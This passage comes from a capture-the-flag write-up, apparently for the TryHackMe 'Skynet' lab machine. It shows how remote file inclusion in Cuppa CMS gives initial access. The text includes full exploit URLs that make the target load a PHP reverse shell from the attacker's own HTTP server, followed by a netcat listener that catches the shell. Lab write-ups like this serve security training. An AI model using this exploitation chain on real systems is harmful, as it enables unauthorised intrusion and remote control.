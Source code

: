 ## Initial Access / User
A `searchsploit` search reveals that Cuppa CMS has a [Local/Remote File Inclusion Vulnerability](https://www.exploit-db.com/exploits/25971) which we can exploit, to gain a reverse shell. 

![](/assets/images/thm-skynet/searchsploit.png)

To set this up all we have to do is start a simple python http server in the directory that has our shell, then manipulate the vulnerable `urlConfig` Parameter to point towards our PHP reverse shell code. Once our reverse shell has been uploaded. Setup a netcat listener so we can gain a stable shell.

URL to execute RFI Vulnerability:
```
http://10.10.156.86/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.6.12.92/shell.php?
```

Let's check our python http server to see if we got a response.
![](/assets/images/thm-skynet/rfi.png)
Now that we know our PHP code is on the machine, let's setup a listener and execute the script and gain a reverse shell.

URL to execute LFI Vulnerability:
```
http://10.10.156.86/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=shell.php
```
![](/assets/images/thm-skynet/initial.png)

Now that we have a shell, let's grab the user flag.
![](/assets/images/thm-skynet/user.png)
